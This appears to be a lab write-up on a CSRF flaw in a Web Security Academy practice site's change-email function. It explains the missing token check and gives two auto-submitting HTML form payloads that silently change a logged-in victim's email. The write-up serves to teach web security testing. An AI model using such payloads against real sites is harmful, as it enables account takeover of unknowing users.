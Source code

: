 # CSRF Vulnerability

Afte Logging with the ```username:password``` given, we surf to change email page! when looking into the request, we check that there's no verification before submiting the request! means we can send to a target the url with the new email inside the url using ```POST``` request.

![****](/CSRF/Screenshots/csrf1.PNG)

## Let generate some Payloads!

CSRF PoC Generator
	- https://security.love/CSRF-PoC-Genorator/

```php
﻿<html>
<form enctype="multipart/form-data" method="POST" action="X.web-security-academy.net/my-account/change-email">
	<table>
		<tr>
			<td>email</td>
			<td><input type="text" value="just@aa.aa" name="email"></td>
		</tr>
	</table>
		<input type="submit" value="https://ac9f1f6a1f9ccdd0c06604330076008b.web-security-academy.net/my-account/change-email">
	</form>
</html>
<script>
	document.forms[0].submit();
</script>
```

Here's another payload!

```php
<form method="POST" action="X.web-security-academy.net/my-account/change-email">
	<input type="text" name="email" value="test@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```